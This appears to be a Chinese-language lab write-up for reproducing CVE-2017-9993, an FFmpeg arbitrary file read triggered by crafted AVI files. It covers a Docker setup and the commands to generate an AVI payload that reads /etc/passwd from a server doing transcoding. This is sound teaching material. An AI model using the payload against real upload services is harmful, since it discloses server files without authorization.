

# FFmpeg AVI 任意文件读取漏洞

FFmpeg 是一个开源的跨平台多媒体框架，提供了处理视频、音频和多媒体文件的功能。

FFmpeg 2.4.14, 2.8.12, 3.0.9, 3.1.9, 3.2.6, 3.3.2 版本之前，未正确限制 HTTP Live Streaming 文件名扩展和解复用器名称，允许攻击者通过精心构造的视频文件来读取服务器上的任意文件。

这个漏洞首次在PHDays 2017会议中被提出，它实际上是[CVE-2016-1897](../CVE-2016-1897/)的不完整修复导致的。FFmpeg官方修复了m3u播放列表中的文件读取和SSRF漏洞，但攻击者通过构造恶意的AVI文件，类似的漏洞仍然存在于其播放列表中，这导致了CVE-2017-9993。

参考链接：

- <https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/>
- <https://github.com/neex/ffmpeg-avi-m3u-xbin>
- <https://www.anquanke.com/post/id/86337>

## 环境搭建

执行如下命令启动一个包含了FFmpeg 3.2.4的环境：

```
docker compose up -d
```

环境启动后将监听8080端口，访问`http://your-ip:8080/`即可查看应用，应用是一个简单的视频播放器，允许用户上传和播放视频。

## 漏洞复现

首先，下载漏洞利用工具并生成恶意payload：

```bash
# 克隆漏洞利用仓库
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# 生成payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

在`http://your-ip:8080/`上传生成的`exp.avi`文件。后端将使用FFmpeg对上传的视频进行转码，在转码过程中，由于FFmpeg的任意文件读取漏洞，文件内容将被嵌入到转码后的视频中：



你也可以执行`docker compose exec web bash`进入环境内部，直接测试FFmpeg。
